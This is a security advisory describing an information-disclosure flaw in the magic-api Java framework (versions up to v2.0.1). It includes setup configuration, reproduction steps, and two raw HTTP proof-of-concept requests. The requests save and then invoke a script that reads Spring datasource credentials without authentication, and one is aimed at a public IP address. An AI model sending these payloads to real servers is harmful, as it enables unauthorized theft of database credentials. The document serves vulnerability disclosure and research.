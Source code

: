 ### Magic-Api Code Execution Vulnerability

project introduction magic-api is a Java-based interface rapid development framework, interface writing will be completed through the UI interface provided by magic-api, automatically mapped to HTTP interface, without defining Java objects such as Controller, Service, Dao, Mapper, XML, VO, etc. to complete common HTTP API interface development.

project address https://gitee.com/ssssssss-team/magic-api Vulnerability Overview magic-api contains an information disclosure vulnerability that an attacker can use to read SpringBoot configuration file contents by defining malicious js methods in custom interfaces. affected version Magic-Api <= v2.0.1 environment construction Refer to the official environment setup documentation: https://www.ssssssss.org/magic-api/pages/quick/start/ Download version 1.7.5 source code on Gitee platform and import IDEA. https://gitee.com/ssssssss-team/magic-api/tree/v1.7.5

Author: Puppy

![img](https://cdn-images-1.medium.com/max/750/1*hW6QBtlIYxPaY4pKcNe9GQ.png)

Add the following configuration to the magic-api-spring-boot-starter module. 
 Detailed Reference:

https://www.ssssssss.org/magic-api/pages/quick/start/  Introduction of Spring Boot Starter parent project:  <parent>  <groupId>org.springframework.boot</groupId>  <artifactId>spring-boot-starter-parent</artifactId>  <version>3.0.0</version>  <relativePathparent>  magic-api-spring-boot-starter dependency introduced.  <dependency>  <groupId>org.ssssssss</groupId>  <artifactId>magic-api-spring-boot-starter</artifactId>  <version>2.0.2</version></dependency>  Spring-boot-starter,spring-boot-starter-web, spring-boot-starter-test, mysql dependencies are introduced.  <dependency>  <groupId>org.springframework.boot</groupId>  <artifactId>spring-boot-starter</artifactId></dependency><dependency>  <groupId>org.springframework.boot</groupId>  <artifactId>spring-boot-starter-web</artifactId></dependency><dependency>  <groupId>org.springframework.boot</groupId>  <artifactId>spring-boot-starter-test</artifactId>  <scope>test</scope></dependency><dependency>  <groupId>org.springframework.boot</groupId>  <artifactId>spring-boot-starter-jdbc</artifactId></dependency><dependency>  <groupId>mysql</groupId>  <artifactId>mysql-connector-java</artifactId>  <version>8.0.27</version></dependency>

Configure application.yml

server: port: 9999magic-api: #configure web page portal web: /magic/web resource: #Configuration file storage location. Read-only mode when it begins with classpath #mac users please change to a readable directory #If you don’t want to save it in a file, you can refer to the configuration to save the interface information in the database, Redis (or custom) location: D:/data/magic-api 
 spring: datasource: driver-class-name: com.mysql.jdbc.Driver url: jdbc:mysql://localhost:3306/magic-api-test? allowMultiQueries=true&useUnicode=true&characterEncoding=UTF-8 username: root password: test

3. Access API management interface 

 After launching the project, visit http://localhost:9999/magic/web to see the Web page 
 bug recurrence 

1. Visit WEB page to create grouping 

 After clicking the Create Group button, enter the grouping information and click Create.

![img](https://cdn-images-1.medium.com/max/750/1*7dNS8iWX5nypsaCRVmWOqw.png)

2. New Interface 

 Right-click the grouping and click New Interface.

![img](https://cdn-images-1.medium.com/max/750/1*Emb3El2ldTy3RwM3RDtCZw.png)



After entering the content in the editor, fill in the interface name and its path.

![img](https://cdn-images-1.medium.com/max/750/1*t3j4x6o_wQ0oF6lG-ueUSA.png)

operation interface 
 spring.datasource.url

![img](https://cdn-images-1.medium.com/max/750/1*HAmBiRUqITGm0S5mlLhzMg.png)

spring.datasource.username

![img](https://cdn-images-1.medium.com/max/750/1*jeYAJ7cIQClRL4OQ530mAQ.png)

**spring.datasource.password**



![img](https://cdn-images-1.medium.com/max/750/1*ihbssrc6SUuCWqv0HCWDAQ.png)

POC

![img](https://cdn-images-1.medium.com/max/750/1*NWsvgJEl1xMtQVuaWIEASg.png)

POC

```
POST /resource/file/api/save?auto=1 HTTP/1.1
Host: 60.205.225.252:8080
Content-Length: 1812
Accept: application/json, text/plain, */*
magic-token: unauthorization
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/json
Origin: http://60.205.225.252:8080
Referer: http://60.205.225.252:8080/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"id":"ed8ea909935c447fb28bb424ed110700","name":"abc","path":"a","groupId":"234ec5f76be84f40a6838d7cf53b931d","lock":null,"method":"GET","description":null,"createBy":null,"properties":{},"script":"import env;\r\n\r\nreturn env.get('spring.datasource.username')","responseBody":"{\n    \"code\": 1,\n    \"message\": \"success\",\n    \"data\": \"jdbc:mysql://localhost:3306/magic-api-test?allowMultiQueries=true&useUnicode=true&characterEncoding=UTF-8\",\n    \"timestamp\": 1692500175894,\n    \"executeTime\": 2\n}","responseBodyDefinition":{"name":"","value":"","description":"","required":false,"dataType":"Object","type":null,"defaultValue":null,"validateType":"","error":"","expression":"","children":[{"name":"code","value":"1","description":"","required":false,"dataType":"Integer","type":null,"defaultValue":null,"validateType":"","error":"","expression":"","children":[]},{"name":"message","value":"success","description":"","required":false,"dataType":"String","type":null,"defaultValue":null,"validateType":"","error":"","expression":"","children":[]},{"name":"data","value":"jdbc:mysql://localhost:3306/magic-api-test?allowMultiQueries=true&useUnicode=true&characterEncoding=UTF-8","description":"","required":false,"dataType":"String","type":null,"defaultValue":null,"validateType":"","error":"","expression":"","children":[]},{"name":"timestamp","value":"1692500175894","description":"","required":false,"dataType":"Long","type":null,"defaultValue":null,"validateType":"","error":"","expression":"","children":[]},{"name":"executeTime","value":"2","description":"","required":false,"dataType":"Integer","type":null,"defaultValue":null,"validateType":"","error":"","expression":"","children":[]}]},"requestBody":"","requestBodyDefinition":null,"parameters":[],"headers":[],"paths":[],"options":[]}
```

POC

```
GET /test1/a HTTP/1.1
Host: localhost:9999
Accept: application/json, text/plain, */*
Magic-Request-Script-Id: ed8ea909935c447fb28bb424ed110700
Magic-Request-Client-Id: a308c3083ba48a42
magic-token: unauthorization
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Magic-Request-Breakpoints: 
Content-Type: application/x-www-form-urlencoded
Referer: http://60.205.225.252:8080/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```